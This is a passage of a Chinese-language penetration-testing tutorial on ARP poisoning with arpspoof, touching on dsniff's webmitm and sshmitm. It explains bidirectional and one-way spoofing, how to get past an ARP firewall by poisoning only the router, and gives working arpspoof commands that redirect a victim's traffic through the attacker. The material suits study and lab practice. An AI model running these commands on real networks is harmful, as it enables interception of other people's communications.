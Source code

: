 - webmitm 劫持的是 HTTP 和 HTTPS 会话过程
- sshmitm 捕获 SSL 的加密通信



## arpspoof

arp 毒化的原理，简单的说就是伪造MAC地址与IP的对应关系，导致数据包由中间人转发出去。

中间人攻击 --- ARP毒化：http://www.2cto.com/Article/201207/144532.html

arp 毒化有双向（remote）和单向（oneway）两种方式。

- 双向方式：将对两个目标的ARP缓存都进行毒化，对两者之间的通信进行监听。一般来说，会选择使用双向欺骗的方式来获取所有的数据包进行嗅探分析。
- 单向方式：只监听从第一个目标到第二个目标的单向通信内容。

若目标主机开启了ARP防火墙怎么办？

- 直接欺骗会引发报警且无效果。这时就是单向ARP毒化大显神威的时候了。只要路由器没有对 IP 和 MAC 进行绑定，我们就可以只欺骗路由器，使从路由器发给目标主机的数据包经过中间人，完成我们的攻击。

>  **如果不指定 tagget 则向网络中所有的主机发送欺骗**
>
> root@kali:~# arpspoof -h
> Version: 2.4
> 用法: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
>
> 名字
>     arpspoof - 在交换式网络截获包
> 概要
>     arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
> 描述 
>     通过伪造 ARP 响应,重定向局域网中一个目标主机(或所有主机)上的数据包
>     到 局域网中的另一个主机上。这在交换式网络上嗅探流量是一个非常有效的方法
>     注意：内核IP转发(或一个实现相同功能的用户程序，如 fragrouter(8))必须提前打开。
>
> 选项
>     -i 网卡接口     指定使用的网卡接口
>
> ​    -c own|host|both  
> ​    指定在恢复arp配置时使用的硬件地址;在清理时，可以用自己的地址和主机的地址发送数据包。
> ​    用一个假的硬件地址发送数据包可能会破坏与某些switch/ap/bridge 配置的连接，
> ​    但是它比使用自己的地址更可靠，这是arpspoof事后清理的默认方式。
>
> ​    -t target   指定要 ARP毒化 的主机(如果没有指定，默认局域网所有主机). 可以重复指定多个主机。
> ​    -r      毒化两个主机(主机和目标)以捕获两个方向的流量。(只在与 -t 联合使用才有效)
> ​    host     指定你希望拦截数据包的主机(通常是本地网关)。
>
> 参见；另请参阅
>     dsniff(8), fragrouter(8)
>
> ​    
> // 使用ARP毒化，重定向受害者的流量传送给攻击者。
> root@bt:~# arpspoof -i eth0 -t 192.168.1.5 192.168.1.1   
>
> // 第二个ARP毒化攻击使网关的数据重定向到攻击者的机器(流量由网关到攻击者再到受攻击者)
> root@bt:~# arpspoof -i eth0 -t 192.168.1.1  192.168.1.2  
>
> 
> root@bt:~# arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
> root@bt:~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.5
